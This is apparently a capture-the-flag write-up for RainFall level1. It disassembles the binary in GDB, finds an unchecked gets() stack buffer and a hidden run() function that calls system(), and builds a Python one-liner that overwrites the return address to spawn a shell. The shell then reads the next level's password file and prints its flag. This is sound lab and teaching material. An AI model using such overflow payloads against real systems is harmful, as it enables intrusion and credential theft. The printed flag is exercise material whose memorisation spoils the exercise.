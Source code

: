 # Level1

## Exploring the binary
```shell
level1@RainFall:~$ ./level1

level1@RainFall:~$ ./level1
phantom
```
After execution, the program waits for input and then terminates.

## GDB analysis
```shell
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.
```
The main functions calls <code>gets()</code> functions which reads the input. No other functions are called, so we explore out options.
```shell
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
```
There is a function <code>run()</code> which could potentially be our way to level2.
```shell
Dump of assembler code for function run:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave
   0x0804847f <+59>:	ret
End of assembler dump.
```
Call to <code>system()</code> supports this theory. We can use the common buffer overflow exploit to access the <code>run()</code> function and trigger the <code>/bin/sh</code> of level2.

## Buffer overrun attack
To find the offset, we can use an online tool ([Wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)).
``` shell
level1@RainFall:~$ echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa...Ag2Ag3Ag4Ag5Ag" > /tmp/pattern
level1@RainFall:~$ gdb ./level1
(gdb) run < /tmp/pattern
Starting program: /home/user/level1/level1 < /tmp/pattern
```
This way, we find out that <u>the offset is 76</u>. By replacing the return address value with the memory address of the <code>run()</code> function, we can manipulate the program flow to ensure its execution.
``` shell
(gdb) p run
$1 = {<text variable, no debug info>} 0x8048444 <run>
```
To ensure that the memory address is represented correctly in the payload, we need to use the little-endian format:
``` shell
\x44\x84\x04\x08
```
When using Python, we can achieve the same result by reversing the order of the bytes:
``` shell
\x08\x04\x84\x44[::-1]
```

## Exploit
``` shell
level1@RainFall:~$ python -c 'print "F" * 76 + "\x08\x04\x84\x44"[::-1]' > /tmp/flag1
level1@RainFall:~$ cat /tmp/flag1 - | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
